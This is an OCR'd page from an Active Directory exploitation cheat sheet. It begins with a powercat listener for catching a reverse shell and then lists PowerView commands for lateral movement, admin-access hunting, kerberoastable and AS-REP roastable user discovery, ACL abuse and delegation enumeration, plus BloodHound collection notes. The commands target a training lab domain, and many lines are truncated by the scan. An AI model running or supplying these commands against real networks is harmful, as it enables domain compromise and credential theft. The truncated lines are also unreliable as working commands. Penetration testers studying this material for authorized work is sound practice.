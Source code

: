 powercat -l -p 443 -t 9999

Lateral Movement
Lateral Movement Enumeration With PowerView
# Find existing local admin access for user (noisy 🚩)
Find-LocalAdminAccess
# Find local admin access over PS remoting (also noisy 🚩
Get-NetComputer -Domain dollarcorp.moneycorp.local > .\t
Find-PSRemotingLocalAdminAccess -ComputerFile .\targets.
# Same for WMI. Requires 'Find-WMILocalAdminAccess.ps1',
Find-WMILocalAdminAccess -ComputerFile .\targets.txt
Find-WMILocalAdminAccess # Finds domain computers automa
# Hunt for sessions of interesting users on machines whe
Invoke-UserHunter -CheckAccess | ?{$_.LocalAdmin -Eq Tru
# Look for kerberoastable users
Get-DomainUser -SPN | select name,serviceprincipalname
# Look for AS-REP roastable users
Get-DomainUser -PreauthNotRequired | select name
# Look for users on which we can set UserAccountControl
## If available - disable preauth or add SPN (see below)
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference
# Look for servers with Unconstrained Delegation enabled
## If available and you have admin privs on this server,
Get-DomainComputer -Unconstrained
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

8/31

# Look for users or computers with Constrained Delegatio
## If available and you have user/computer hash, access
Get-DomainUser -TrustedToAuth | select userprincipalname
Get-DomainComputer -TrustedToAuth | select name,msds-all

BloodHound
Use Invoke-BloodHound from SharpHound.ps1 or use
SharpHound.exe Both can be ran reflectively get them here
